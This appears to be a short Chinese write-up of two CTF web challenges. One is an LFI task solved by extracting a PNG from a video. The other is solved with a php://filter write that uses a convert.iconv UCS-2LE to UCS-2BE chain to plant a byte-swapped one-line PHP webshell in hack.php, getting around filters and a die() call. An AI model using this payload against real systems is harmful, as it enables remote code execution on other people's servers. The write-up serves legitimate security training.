






### web116

开启容器

**提示**：misc+lfi

是一个视频下载过来

找到 png 文件，导出得到一个代码图片

找到 flag

### web117

开启容器

代码审计

**解答**：两个参数，有过滤，有 die。  
string 字符串过滤器被过滤了，base64 也被过滤了，但还有 convert.iconv.

把[一句话木马](https://so.csdn.net/so/search?q=%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)从`UCS-2LE`编码转换为`UCS-2BE`编码。

`?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php`  
post：`contents=?<hp pe@av(l_$OPTSj[]z;)>?`

